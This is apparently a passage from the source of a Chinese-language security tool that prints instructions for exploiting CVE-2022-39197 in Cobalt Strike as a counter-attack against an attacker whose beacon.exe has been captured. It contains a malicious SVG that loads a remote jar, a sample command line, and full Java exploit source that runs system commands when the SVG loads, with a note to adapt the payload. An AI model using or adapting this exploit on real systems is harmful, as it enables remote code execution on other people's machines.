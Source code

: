1）点击检测按钮，回显文本框显示如何反制和示例SVG文件源码、jar包源码

```java
else if (name[0].equalsIgnoreCase("cs RCE")){

    textArea1.appendText("[+] 反制方法:\n"+
            "[0] 前提：本地已获取到对方木马(beacon.exe)\n"+
            "[1] 反制环境要求：win,python3,pip3安装frida-tools\n"+
            "[2] python已加入环境变量\n"+
            "[3] 自行准备恶意svg文件,jar包,对方能访问到\n" +
            "[4] 命令输入exe绝对路径和svg地址,空格隔开,点击执行实现反制\n"+
            "[payload eg]:beacon.exe http://127.0.0.1:4444/evil.svg\n\n");

    textArea1.appendText("[示例] svg源码:\n"+
                    "<svg xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\" version=\"1.0\">\n" +
                            "<script type=\"application/java-archive\" xlink:href=\"http://127.0.0.1:9898/EvilJar-calc.jar\"/>\n" +
                            "<text>CVE-2022-39197</text>\n" +
                            "</svg>"+"\n\n"+
                    "[示例] jar包里的恶意代码源码:弹出计算器,适用不同系统:macos/linux/windows,注意安装依赖,按需修改payload\n"+
"import org.w3c.dom.events.Event;\n" +
        "import org.w3c.dom.events.EventListener;\n" +
        "import org.w3c.dom.svg.EventListenerInitializer;\n" +
        "import org.w3c.dom.svg.SVGDocument;\n" +
        "import org.w3c.dom.svg.SVGSVGElement;\n" +
        "import java.util.*;\n" +
        "import java.io.*;\n" +
        "public class Exploit implements EventListenerInitializer {\n" +
        "    public void initializeEventListeners(SVGDocument document) {\n" +
        "        SVGSVGElement root = document.getRootElement();\n" +
        "        EventListener listener = new EventListener() {\n" +
        "            public void handleEvent(Event event) {\n" +
        "                try {\n" +
        "                    String OS = System.getProperty(\"os.name\", \"unknown\").toLowerCase(Locale.ROOT);\n" +
        "                    if (OS.contains(\"win\")) {\n" +
        "                        Runtime.getRuntime().exec(\"calc.exe\");\n" +
        "                    } else if (OS.contains(\"mac\")) {\n" +
        "                        Runtime.getRuntime().exec(\"open -a calculator\");\n" +
        "                    } else if (OS.contains(\"nux\")) {\n" +
        "                        Runtime.getRuntime().exec(\"/usr/bin/mate-calc\");\n" +
        "                    }\n" +
        "                } catch (Exception e) {}\n" +
        "            }\n" +
        "        };\n" +
        "        root.addEventListener(\"SVGLoad\", listener, false);\n" +
        "    }\n" +
        "}\n\n"
);
```
